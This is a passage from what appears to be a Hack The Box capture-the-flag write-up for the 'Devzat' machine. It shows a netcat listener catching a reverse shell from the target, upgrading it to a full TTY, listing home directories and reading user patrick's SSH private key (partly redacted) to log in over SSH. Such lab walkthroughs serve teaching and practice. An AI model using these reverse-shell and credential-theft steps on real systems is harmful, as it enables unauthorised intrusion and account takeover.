 Now switch to a waiting netcat listener:

```text
┌──(root💀kali)-[~/htb/devzat]
└─# nc -lvvp 1337                              
listening on [any] 1337 ...
connect to [10.10.15.40] from devzat.htb [10.10.11.118] 42062
bash: cannot set terminal process group (823): Inappropriate ioctl for device
bash: no job control in this shell
patrick@devzat:~/pets$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
patrick@devzat:~/pets$ ^Z
zsh: suspended  nc -lvvp 1337
┌──(root💀kali)-[~/htb/devzat]
└─# stty raw -echo; fg
[1]  + continued  nc -lvvp 1337
patrick@devzat:~/pets$
```

With the shell upgraded to something a little more useable I had a quick look around:

```text
patrick@devzat:~/pets$ ls -lsa /home       
4 drwxr-xr-x  5 catherine catherine 4096 Oct 31 20:46 catherine
4 drwxr-xr-x  9 patrick   patrick   4096 Sep 24 14:57 patrick

patrick@devzat:~/pets$ ls -lsa /home/patrick
0 lrwxrwxrwx 1 root    root       9 Jun 22 20:40 .bash_history -> /dev/null
4 -rw-r--r-- 1 patrick patrick  220 Feb 25  2020 .bash_logout
4 -rw-r--r-- 1 patrick patrick 3809 Jun 22 18:43 .bashrc
4 drwx------ 3 patrick patrick 4096 Jun 22 20:17 .cache
4 drwx------ 3 patrick patrick 4096 Jun 23 16:00 .config
4 drwxr-x--- 2 patrick patrick 4096 Sep 23 15:07 devzat
4 -rw-rw-r-- 1 patrick patrick   51 Jun 22 19:52 .gitconfig
4 drwxrwxr-x 3 patrick patrick 4096 Jun 22 18:51 go
4 drwxrwxr-x 4 patrick patrick 4096 Jun 22 18:50 .npm
4 drwxrwx--- 5 patrick patrick 4096 Jun 23 19:05 pets
4 -rw-r--r-- 1 patrick patrick  807 Feb 25  2020 .profile
4 drwxrwxr-x 2 patrick patrick 4096 Sep 29 16:33 .ssh
```

## SSH As Patrick

We see there's just two users, and the flag isn't in Patrick's home folder. So we can assume we need to escalate to Catherine next. Patrick has a private SSH key so I'l drop out of this reverse shell and log in via SSH as him for a better connection:

```text
patrick@devzat:~/pets$ cd /home/patrick/

patrick@devzat:~$ cat .ssh/id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
<SNIP>
n3LMfTlr/Fl0V3AAAADnBhdHJpY2tAZGV2emF0AQIDBA==
-----END OPENSSH PRIVATE KEY-----
```
